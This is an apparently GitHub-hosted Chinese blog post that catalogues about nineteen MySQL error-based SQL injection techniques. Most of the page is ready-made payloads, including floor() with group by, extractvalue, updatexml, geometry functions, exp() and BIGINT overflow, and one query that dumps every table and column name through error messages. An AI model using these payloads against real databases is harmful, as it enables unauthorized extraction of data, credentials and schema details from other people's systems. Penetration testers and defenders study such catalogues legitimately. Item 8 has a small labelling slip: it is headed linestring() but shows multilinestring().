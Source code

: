 ```yaml
---
title: SQL注入报错注入20种方式
date: 2023-08-27 15:29:03
tags:
- web漏洞
categories:
- web漏洞
---
```


# [mysql 二十余种报错注入姿势](https://www.cnblogs.com/feizianquan/p/10794681.html)

**1.floor()** 

floor 和group by 搭配使用 利用group by 的key唯一性 和mysql 编码执行顺序导致二次执行产生不同key

```
select * from users where id=1 OR+1e0GROUP BY+CONCAT_WS(0x3a,VERSION(),FLOOR(RAND(0)*2)) HAVING+MIN(0)OR+1
```

数值型注入时 不用闭合‘ 进行注入  利用 or 条件注入

通用型 的一般格式 注入

```
select * from users where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a)
```

**2.extractvalue**

对XML文档进行查询的函数 和updatexml() 一样 针对5.5版本以后

```
select * from users where id=1 and extractvalue(1,concat(0x7e,user()))
```

**3.updatexml()**

```
select * from test where id=1 and updatexml(1,concat(0x7e,user()),1)
```

**4.geometrycollection()**

```
select * from test where id=1 and geometrycollection((select * from(select * from(select user())a)b));
```

**5.multipoint()**

```
select * from test where id=1 and multipoint((select * from(select * from(select user())a)b));
```

**6.polygon()**

```
select * from test where id=1 and polygon((select * from(select * from(select user())a)b));
```

**7.multipolygon()**

```
select * from test where id=1 and multipolygon((select * from(select * from(select user())a)b));
```

**8.linestring()**

```
select * from test where id=1 and multilinestring((select * from(select * from(select user())a)b));
```

**9.multilinestring()**

```
select * from test where id=1 and multilinestring((select * from(select * from(select user())a)b));
```

**10.exp()**

`exp()`即为以e为底的对数函数

exp(709) 里面的参数在大于709时函数会报错

```
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(710)'
select * from test where id=1 and exp(~(select * from(select user())a));
```

**11.procedure analyse**

```
select * from  users order by 1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1)
```

**12.用户变量**

```
select min(@a:=1) from information_schema.tables group by concat(database()
,@a:=(@a+1)%2)
```

**13.通过NAME_CONST(适用于低版本)**

```
+or+(select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1)) as x)
```

**14.0位取反报错 (BIGINT溢出)**

```
select ~0+!(select*from(select user())x);
```

**15.atan，ceil,floor,!,...相减溢出**

```
select !atan((select*from(select user())a))-~0; 
select !ceil((select*from(select user())a))-~0;
select !floor((select*from(select user())a))-~0;
select !HEX((select*from(select user())a))-~0; 
select !RAND((select*from(select user())a))-~0;
select !FLOOR((select*from(select user())a))-~0;
select !CEILING((select*from(select user())a))-~0; 
select !RAND((select*from(select user())a))-~0;
select !TAN((select*from(select user())a))-~0;
select !SQRT((select*from(select user())a))-~0; 
select !ROUND((select*from(select user())a))-~0;
select !SIGN((select*from(select user())a))-~0;
```

**16.@:=**

```
!(select*from(select(concat(@:=0,(select count(*)from`information_schema`.columns where table_schema=database()and@:=concat(@,0xa,table_schema,0x3a3a,table_name,0x3a3a,column_name)),@)))x)-~0
(select(!x-~0)from(select(concat (@:=0,(select count(*)from`information_schema`.columns where table_schema=database()and@:=concat (@,0xa,table_name,0x3a3a,column_name)),@))x)a)
(select!x-~0.from(select(concat (@:=0,(select count(*)from`information_schema`.columns where table_schema=database()and@:=concat (@,0xa,table_name,0x3a3a,column_name)),@))x)a)
```

**17.^ 按位异或**

```
select !(select*from(select user())a)-0^222;
```

**18.0位表减溢出**

```
(select(!x-~0)from(select(select user())x)a)

(select!x-~0.from(select(select user())x)a)
```

**19.in溢出**

```
select * from users where id in(~0+!(select*from(select user())x))
```
